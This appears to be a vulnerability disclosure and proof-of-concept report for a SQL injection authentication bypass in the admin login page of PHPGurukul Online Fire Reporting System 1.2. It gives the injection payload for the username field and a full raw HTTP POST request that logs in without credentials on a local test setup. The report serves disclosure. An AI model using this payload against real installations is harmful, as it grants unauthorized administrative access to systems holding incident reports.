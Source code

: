 # Description

A SQL Injection vulnerability exists in the `ofrs/admin/index.php`
 script of PHPGurukul Online Fire Reporting System 1.2. The
 vulnerability allows attackers to bypass authentication and gain
 unauthorized access by injecting SQL commands into the username input
 field during the login process. 

# PoC Report

 ## Environment Setup

 - Vendor Homepage: https://phpgurukul.com/online-fire-reporting-system-using-php-and-mysql/
 - Software Link: https://phpgurukul.com/projects/Online-Fire-Reporting-System-using-PHP.zip
 - Version: V1.2
 - Tested on: Windows 11 + XAMPP 8.0.30

 ## Exploit Description

 SQL Injection Vulnerability in ofrs/admin/index.php :
 The SQL injection vulnerability in the ofrs/admin/index.php script arises from the insecure handling of user input during the login process.

 ## Steps to Reproduce

 1. Open the admin panel page by following URL: http://localhost/ofrs/admin/index.php
 2. Enter the following payload from username-box: `admin'or'1--`
 3. Press the `Login` button or press Enter.

 ## Proof Of Concept
```
 POST /ofrs/admin/index.php HTTP/1.1
 Host: localhost
 Content-Length: 46
 Cache-Control: max-age=0
 sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
 sec-ch-ua-mobile: ?0
 sec-ch-ua-platform: "Windows"
 Upgrade-Insecure-Requests: 1
 Origin: http://localhost
 Content-Type: application/x-www-form-urlencoded
 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
 Sec-Fetch-Site: same-origin
 Sec-Fetch-Mode: navigate
 Sec-Fetch-User: ?1
 Sec-Fetch-Dest: document
 Referer: http://localhost/ofrs/admin/index.php
 Accept-Encoding: gzip, deflate, br
 Accept-Language: en-US,en;q=0.9
 Cookie: PHPSESSID=fmnj70mh1qo2ssv80mlsv50o29
 Connection: close

 username=admin%27or%27--&inputpwd=&login=login
```


## Vulnerability Type
 SQL Injection


## Vendor of Product
 online_fire_reporting_system_project



 ## Affected Product Code Base
 online_fire_reporting_system - v1.2

 ## Affected Component
 ofrs/admin/index.php script
